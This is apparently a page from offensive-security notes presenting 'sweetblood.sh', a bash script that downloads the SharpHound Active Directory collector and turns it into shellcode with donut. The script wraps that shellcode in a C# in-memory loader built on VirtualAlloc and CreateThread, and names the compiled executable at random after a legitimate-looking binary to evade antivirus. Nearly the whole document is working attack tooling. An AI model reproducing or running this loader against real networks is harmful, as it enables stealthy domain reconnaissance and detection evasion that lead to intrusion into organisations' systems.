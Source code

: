 [Example](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146) with [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and donut (C# cross-compilation is done with [Mono](https://www.mono-project.com/download/stable/)):

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}
